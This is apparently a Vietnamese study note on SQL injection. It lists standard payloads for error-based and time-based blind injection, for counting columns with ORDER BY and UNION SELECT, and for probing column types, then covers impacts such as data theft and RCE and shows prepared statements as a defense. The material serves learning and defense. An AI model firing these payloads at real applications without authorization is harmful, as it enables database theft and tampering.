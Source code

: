 > ### **Inducing conditional responses by triggering SQL errors**

```sql
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

## **SQL injection UNION attacks** ##

```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

- Xác định số lượng cột:

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

- Tìm kiếm kiểu dữ liệu của cột:

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

## **Ảnh hưởng của SQL injection**

- Có thể bị lấy toàn bộ dữ liệu database, có thể sửa dữ liệu.
- Có thể bị RCE, trong một số tình huống kẻ tấn công có thể leo thang đặc quyền để chiếm máy chủ.
- Điều kiện RCE
  - Có quyền ghi file
  - File sau khi tạo có quyền thực thi

## **Phòng chống SQL injection**

- Sử dụng prepare statement
khi sử dụng prepare statement thì tham số truyền vào sẽ được coi là một chuỗi:

![](./img_sql/2.png)
